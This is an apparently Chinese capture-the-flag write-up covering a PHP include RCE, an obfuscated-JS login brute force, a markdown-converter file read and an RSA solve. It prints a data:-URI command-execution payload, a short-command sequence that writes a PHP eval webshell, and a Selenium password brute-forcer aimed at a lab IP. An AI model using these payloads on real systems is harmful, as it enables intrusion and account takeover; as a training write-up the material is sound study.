# Web

## **signin**

### #文件包含+极限RCE

```php
<?php
highlight_file(__FILE__);

$blacklist = ['/', 'convert', 'base', 'text', 'plain'];

$file = $_GET['file'];

foreach ($blacklist as $banned) {
    if (strpos($file, $banned) !== false) {
        die("这个是不允许的哦~");
    }
}

if (isset($file) && strlen($file) <= 20){
    include $file;
};
```

过滤黑名单+长度限制

用data协议可以做，include可以解析data:协议的RFC2397格式

```php
?file=data:,<?=`whoami`?>
```

但是跟我之前学到的include没法解析`data:`这种有点相悖了，后面再重新研究一下吧



去掉whoami的话是13个字符，也就是说需要打7字符以内的RCE，网上有很多，随便找一个就行了

https://blog.csdn.net/q20010619/article/details/109206728

尝试写马

```php
#写入语句
<?php eval($_GET[1]);
#base64编码后
PD9waHAgZXZhbCgkX0dFVFsxXSk7
#需要被执行的语句：
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php
```

poc

```bash
>hp
>1.p\\
>d\>\\
>\ -\\
>e64\\
>bas\\
>7\|\\
>XSk\\
>Fsx\\
>dFV\\
>kX0\\
>bCg\\
>XZh\\
>AgZ\\
>waH\\
>PD9\\
>o\ \\
>ech\\
ls -t>0
sh 0
```

挨个打进去后访问1.php进行RCE就行了



## **渗透测试**

### #爆破

js混淆加密，得逆向分析一下逻辑



在启动器中找到函数调用栈



这里应该是发送请求的函数，看看**_0x4eeb91**是怎么赋值的，往上回溯来到



body的值就是`_0x1e9ca4`变量的值，刚好上一行就是该变量的赋值

```javascript
const _0x1e9ca4 = CryptoJS[_0xea7c('0x3ad', 'nNa]')][_0xea7c('0xb4', '(W1Y')][_0xea7c('0x2a6', '^j0r')](_0x2f332e);
```

关键就是这个`_0xea7c`函数，里面包含了不同的加密方式

```javascript
const _0xea7c = function(_0x132339, _0x1e6646) {
    _0x132339 = _0x132339 - 0x0;
    let _0xea7c6e = _0x1e66[_0x132339];
    if (_0xea7c['dHGUFG'] === undefined) {
        (function() {
            let _0x1248c8;
            try {
                const _0x12902a = Function('return\x20(function()\x20' + '{}.constructor(\x22return\x20this\x22)(\x20)' + ');');
                _0x1248c8 = _0x12902a();
            } catch (_0x4581d3) {
                _0x1248c8 = window;
            }
            const _0x32b9ac = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';
            _0x1248c8['atob'] || (_0x1248c8['atob'] = function(_0x54b4a7) {
                const _0x3e35a5 = String(_0x54b4a7)['replace'](/=+$/, '');
                let _0x297f1c = '';
                for (let _0x35d762 = 0x0, _0xdc4c42, _0x3f5f67, _0xbb92fb = 0x0; _0x3f5f67 = _0x3e35a5['charAt'](_0xbb92fb++); ~_0x3f5f67 && (_0xdc4c42 = _0x35d762 % 0x4 ? _0xdc4c42 * 0x40 + _0x3f5f67 : _0x3f5f67,
                _0x35d762++ % 0x4) ? _0x297f1c += String['fromCharCode'](0xff & _0xdc4c42 >> (-0x2 * _0x35d762 & 0x6)) : 0x0) {
                    _0x3f5f67 = _0x32b9ac['indexOf'](_0x3f5f67);
                }
                return _0x297f1c;
            }
            );
        }());
        const _0x49cb22 = function(_0x54b810, _0x3a8e4c) {
            let _0x379038 = [], _0x21c879 = 0x0, _0x186ec4, _0x55c54c = '', _0x519549 = '';
            _0x54b810 = atob(_0x54b810);
            for (let _0xea3d14 = 0x0, _0x37fada = _0x54b810['length']; _0xea3d14 < _0x37fada; _0xea3d14++) {
                _0x519549 += '%' + ('00' + _0x54b810['charCodeAt'](_0xea3d14)['toString'](0x10))['slice'](-0x2);
            }
            _0x54b810 = decodeURIComponent(_0x519549);
            let _0x4b8e4c;
            for (_0x4b8e4c = 0x0; _0x4b8e4c < 0x100; _0x4b8e4c++) {
                _0x379038[_0x4b8e4c] = _0x4b8e4c;
            }
            for (_0x4b8e4c = 0x0; _0x4b8e4c < 0x100; _0x4b8e4c++) {
                _0x21c879 = (_0x21c879 + _0x379038[_0x4b8e4c] + _0x3a8e4c['charCodeAt'](_0x4b8e4c % _0x3a8e4c['length'])) % 0x100;
                _0x186ec4 = _0x379038[_0x4b8e4c];
                _0x379038[_0x4b8e4c] = _0x379038[_0x21c879];
                _0x379038[_0x21c879] = _0x186ec4;
            }
            _0x4b8e4c = 0x0;
            _0x21c879 = 0x0;
            for (let _0x1232b8 = 0x0; _0x1232b8 < _0x54b810['length']; _0x1232b8++) {
                _0x4b8e4c = (_0x4b8e4c + 0x1) % 0x100;
                _0x21c879 = (_0x21c879 + _0x379038[_0x4b8e4c]) % 0x100;
                _0x186ec4 = _0x379038[_0x4b8e4c];
                _0x379038[_0x4b8e4c] = _0x379038[_0x21c879];
                _0x379038[_0x21c879] = _0x186ec4;
                _0x55c54c += String['fromCharCode'](_0x54b810['charCodeAt'](_0x1232b8) ^ _0x379038[(_0x379038[_0x4b8e4c] + _0x379038[_0x21c879]) % 0x100]);
            }
            return _0x55c54c;
        };
        _0xea7c['Pidpya'] = _0x49cb22;
        _0xea7c['fRAhqw'] = {};
        _0xea7c['dHGUFG'] = !![];
    }
    const _0x28245d = _0xea7c['fRAhqw'][_0x132339];
    if (_0x28245d === undefined) {
        if (_0xea7c['XGTKOy'] === undefined) {
            const _0x6c31d8 = function(_0x2f9b92) {
                this['dMwWLe'] = _0x2f9b92;
                this['CQhPHz'] = [0x1, 0x0, 0x0];
                this['oFbMcx'] = function() {
                    return 'newState';
                }
                ;
                this['EgQpyx'] = '\x5cw+\x20*\x5c(\x5c)\x20*{\x5cw+\x20*';
                this['PkMfBe'] = '[\x27|\x22].+[\x27|\x22];?\x20*}';
            };
            _0x6c31d8['prototype']['nmHugU'] = function() {
                const _0x53c92f = new RegExp(this['EgQpyx'] + this['PkMfBe']);
                const _0x422c65 = _0x53c92f['test'](this['oFbMcx']['toString']()) ? --this['CQhPHz'][0x1] : --this['CQhPHz'][0x0];
                return this['MVpJQI'](_0x422c65);
            }
            ;
            _0x6c31d8['prototype']['MVpJQI'] = function(_0x22e286) {
                if (!Boolean(~_0x22e286)) {
                    return _0x22e286;
                }
                return this['quQLsB'](this['dMwWLe']);
            }
            ;
            _0x6c31d8['prototype']['quQLsB'] = function(_0x31a806) {
                for (let _0x46e75e = 0x0, _0x22679a = this['CQhPHz']['length']; _0x46e75e < _0x22679a; _0x46e75e++) {
                    this['CQhPHz']['push'](Math['round'](Math['random']()));
                    _0x22679a = this['CQhPHz']['length'];
                }
                return _0x31a806(this['CQhPHz'][0x0]);
            }
            ;
            new _0x6c31d8(_0xea7c)['nmHugU']();
            _0xea7c['XGTKOy'] = !![];
        }
        _0xea7c6e = _0xea7c['Pidpya'](_0xea7c6e, _0x1e6646);
        _0xea7c['fRAhqw'][_0x132339] = _0xea7c6e;
    } else {
        _0xea7c6e = _0x28245d;
    }
    return _0xea7c6e;
};
```



然后卡了半天没分析出来加密的逻辑，突然灵机一动，想起既然直接发请求不行，那模拟登录请求不就行了

让ai给了个selenium模拟登录请求的脚本

```python
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.common.by import By
from selenium.webdriver.support.ui import WebDriverWait
from selenium.webdriver.support import expected_conditions as EC
import time


# ===== 从文件读取密码字典 =====
def load_passwords(file_path):
    """从txt文件读取密码列表"""
    try:
        with open(file_path, 'r', encoding='utf-8') as f:
            # 读取所有行，去除空行和前后空格
            passwords = [line.strip() for line in f if line.strip()]
        print(f"✅ 成功加载 {len(passwords)} 个密码")
        return passwords
    except FileNotFoundError:
        print(f"❌ 错误: 找不到文件 {file_path}")
        return []
    except Exception as e:
        print(f"❌ 读取文件时出错: {e}")
        return []


# ===== 配置 =====
password_file = "112157_passwords.txt"  # 密码文件路径
username = "admin"  # 用户名

# 加载密码列表
password_list = load_passwords(password_file)

if not password_list:
    print("没有密码可以尝试，程序退出")
    exit()

# ===== Chrome 配置 =====
chrome_options = Options()
chrome_options.add_argument("--disable-blink-features=AutomationControlled")
chrome_options.add_argument("--start-maximized")
# chrome_options.add_argument("--headless=new")

driver = webdriver.Chrome(options=chrome_options)
wait = WebDriverWait(driver, 10)

success = False

try:
    # 遍历密码列表
    for idx, password in enumerate(password_list, 1):
        print(f"\n[{idx}/{len(password_list)}] 正在尝试密码: {password}")

        # 打开页面
        driver.get("http://114.66.24.228:31673/")

        # 找到输入框
        username_input = wait.until(
            EC.presence_of_element_located(
                (By.XPATH, '//input[@id="username"]')
            )
        )
        password_input = wait.until(
            EC.presence_of_element_located(
                (By.XPATH, '//input[@id="password"]')
            )
        )

        # 3️⃣ 输入用户名和密码
        username_input.clear()
        username_input.send_keys(username)

        password_input.clear()
        password_input.send_keys(password)

        # 4️⃣ 定位并点击"发送"按钮
        send_btn = wait.until(
            EC.element_to_be_clickable(
                (By.XPATH, '//button[@id="sendBtn"]')
            )
        )
        send_btn.click()

        # 5️⃣ 等待请求完成(给前端 JS 时间)
        time.sleep(0.5)

        # 6️⃣ 检查是否登录成功（根据实际页面调整判断条件）
        try:
            # 检查是否有失败提示
            result_element = driver.find_element(By.XPATH, '//pre[@id="result"]')
            result_text = result_element.text.strip()

            if result_text == "login failed!" :
                print(f"❌ 密码 {password} 登录失败")
            elif result_text == "Hacker!" :
                print("出现Hacker !，将重新请求")
                password_list.append(password)
            else:
                # 如果result不是"login failed!"，说明登录成功
                print(f"✅ 登录成功! 密码是: {password}")
                print(f"返回信息: {result_text}")
                success = True
                exit(0)

        except Exception as e:
            pass

        print(f"❌ 密码 {password} 登录失败")

finally:
    time.sleep(2)
    driver.quit()
```

但是环境不太稳定，每次爆破到中途就会断掉，需要注意的是，当请求频繁的时候极小概率会触发回显`Hacker!`，需要加上逻辑语句进行处理

中途断掉了，不知道啥原因


mad一开始拿出题人的名字爆的，因为在js中看到有salt值是出题人的名字，后面发现是admin。。





## Markdown2world（复现）

支持markdown转化成其他格式

在markdown当中，通过``这样的语法是可以包含本地文件的。

首先写一个md文件

```markdown

```

转化成html格式



没法解析

转化成docx格式

虽然打开是空白，但是`\converted\word\media\rId9.so`可以看到



转化成RTF格式



转化成epub格式，打开是空的，但是换成zip后缀解压后`\EPUB\media\file0`中有



其他的格式就不测了，直接读根目录flag就出来了

# crypto

## math_rsa

直接丢给ai就梭出来了



共享链接：https://grok.com/share/c2hhcmQtNA_775a567c-caaa-44da-b558-ef85f33408ca

poc

```python
from Crypto.Util.number import *
import gmpy2

n = 14070754234209585800232634546325624819982185952673905053702891604674100339022883248944477908133810472748877029408864634701590339742452010000798957135872412483891523031580735317558166390805963001389999673532396972009696089072742463405543527845901369617515343242940788986578427709036923957774197805224415531570285914497828532354144069019482248200179658346673726866641476722431602154777272137461817946690611413973565446874772983684785869431957078489177937408583077761820157276339873500082526060431619271198751378603409721518832711634990892781578484012381667814631979944383411800101335129369193315802989383955827098934489
e = 65537
c = 12312807681090775663449755503116041117407837995529562718510452391461356192258329776159493018768087453289696353524051692157990247921285844615014418841030154700106173452384129940303909074742769886414052488853604191654590458187680183616318236293852380899979151260836670423218871805674446000309373481725774969422672736229527525591328471860345983778028010745586148340546463680818388894336222353977838015397994043740268968888435671821802946193800752173055888706754526261663215087248329005557071106096518012133237897251421810710854712833248875972001538173403966229724632452895508035768462851571544231619079557987628227178358

k = 485723311775451084490131424696603828503121391558424003875128327297219030209620409301965720801386755451211861235029553063690749071961769290228672699730274712790110328643361418488523850331864608239660637323505924467595552293954200495174815985511827027913668477355984099228100469167128884236364008368230807336455721259701674165150959031166621381089213574626382643770012299575625039962530813909883594225301664728207560469046767485067146540498028505317113631970909809355823386324477936590351860786770580377775431764048693195017557432320430650328751116174124989038139756718362090105378540643587230129563930454260456320785629555493541609065309679709263733546183441765688806201058755252368942465271917663774868678682736973621371451440269201543952580232165981094719134791956854961433894740133317928275468758142862373593473875148862015695758191730229010960894713851228770656646728682145295722403096813082295018446712479920173040974429645523244575300611492359684052455691388127306813958610152185716611576776736342210195290674162667807163446158064125000445084485749597675094544031166691527647433823855652513968545236726519051559119550903995500324781631036492013723999955841701455597918532359171203698303815049834141108746893552928431581707889710001424400

# y = 2*u + 1, u is 16-bit prime → y is odd, 2^16 < y < 2^17+something

# 我们枚举所有合理的 y (可以从 2^16+3 到 2^17+100 左右的所有奇数都试也行，但效率低)
# 更高效：生成所有 16 bit 素数

def is_square(n):
    if n < 0:
        return False
    s = int(gmpy2.isqrt(n))
    return s*s == n

found = False

# 粗暴枚举 y 在合理范围内 (你可以优化成只枚举 2*prime +1)
for yy in range(2**16 + 1, 2**17 + 200, 2):   # 所有奇数
    y = yy
    A = (y - 1)**2
    B = 2*y**2 - 4*y + 2
    C = (y - 1)**2 - 4*k
    
    disc = B**2 - 4*A*C
    if not is_square(disc):
        continue
        
    sqrt_d = int(gmpy2.isqrt(disc))
    if sqrt_d**2 != disc:
        continue
        
    # 两个可能的 x
    for sign in [1, -1]:
        numerator = -B + sign * sqrt_d
        if numerator % (2 * A) != 0:
            continue
        x = numerator // (2 * A)
        if x <= 0:
            continue
            
        phi = x + 1
        if phi >= n:
            continue
            
        # 检查 phi 是否合理
        s = n - phi + 1   # p + q
        disc_pq = s**2 - 4*n
        if not is_square(disc_pq):
            continue
        dd = int(gmpy2.isqrt(disc_pq))
        if dd**2 != disc_pq:
            continue
            
        p = (s + dd) // 2
        q = (s - dd) // 2
        
        if p * q == n and isPrime(p) and isPrime(q):
            print(f"找到！p = {p}")
            print(f"q = {q}")
            d = inverse(e, phi)
            m = pow(c, d, n)
            flag = long_to_bytes(m)
            print("flag =", flag)
            found = True
            break
    
    if found:
        break
```

